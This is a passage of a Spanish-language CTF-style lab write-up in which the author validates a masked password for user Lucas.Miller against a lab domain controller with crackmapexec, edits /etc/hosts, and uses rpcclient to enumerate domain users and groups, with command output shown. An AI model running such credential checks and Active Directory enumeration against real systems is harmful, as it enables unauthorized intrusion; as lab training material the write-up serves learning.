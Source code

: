 Con lo que tenemos, podemos comprobar si la contraseña sirve contra el **usuario Lucas.Miller** con **crackmapexec**:
```bash
crackmapexec smb 192.168.56.10 -u 'Lucas.Miller' -p '**************'
SMB         192.168.56.10   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:neptune.thl) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    DC01             [+] neptune.thl\Lucas.Miller:********
```
Genial, podemos seguir con el **servicio SMB**.

Y como no habíamos analizado antes el **SMB**, podemos ver el nombre del servidor del DC, así que registralo en el `/etc/hosts`:
```bash
nano /etc/hosts
--------------
192.168.56.10 neptune.thl DC01.neptune.thl
```
Listo, continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="RPC">Enumeración de Servicio RPC</h2>

Tengo entendido que nos podemos autenticar en **SMB y RPC** con las mismas credenciales, ya que ambos trabajan de la mano.

Comprobémoslo entrando al **servicio RPC** con la herramienta **rpcclient**:
```batch
rpcclient -U "Lucas.Miller%contraseña_aqui" 192.168.56.10
rpcclient $>
```
Estamos dentro.

Desde aquí, podemos enumerar los usuarios, grupos y demás información.

Veamos los usuarios existentes:
```batch
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lucas.miller] rid:[0x451]
user:[victor.rodriguez] rid:[0x452]
user:[emma.johnson] rid:[0x453]
user:[thomas.brown] rid:[0x454]
```
Tenemos 4 usuarios.

Veamos los grupos existentes:
```batch
pcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
```